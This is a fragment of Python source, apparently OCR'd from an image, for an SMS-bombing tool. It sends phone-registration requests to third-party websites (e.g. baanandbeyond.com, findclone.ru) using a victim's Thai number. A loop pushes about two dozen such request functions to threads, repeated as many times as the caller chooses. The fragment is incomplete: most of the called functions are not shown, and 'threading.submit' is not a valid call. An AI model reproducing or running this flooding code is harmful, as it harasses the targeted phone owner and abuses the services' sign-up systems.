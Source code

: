 	

def cang23(phone):

	 requests.get("https://www.baanandbeyond.com/registration_initiate?on%5Bcountry%5D=66&on%5Bvalue%5D="+phone+"&type=mobile")

	 

def cang24(phone):

	requests.get("https://findclone.ru/register?phone=+66"+phone)







def annmariex(phone, amount):

    for _ in range(amount):

        threading.submit(ab1, phone)

        threading.submit(ab2, phone)

        threading.submit(ab3, phone)

        threading.submit(ab4, phone)

        threading.submit(ab5, phone)

        threading.submit(ab6, phone)

        threading.submit(ab7, phone)

        threading.submit(ab8, phone)

        threading.submit(ab9, phone)

        threading.submit(ab10, phone)

        threading.submit(ab11, phone)

        threading.submit(ab12, phone)

        threading.submit(ab13, phone)

        threading.submit(ab14, phone)

        threading.submit(ab15, phone)

        threading.submit(ab16, phone)

        threading.submit(ab17, phone)

        threading.submit(ab18, phone)

        threading.submit(ab19, phone)

        threading.submit(ab20, phone)

        threading.submit(ab21, phone)

        threading.submit(ab22, phone)

        threading.submit(ab23, phone)
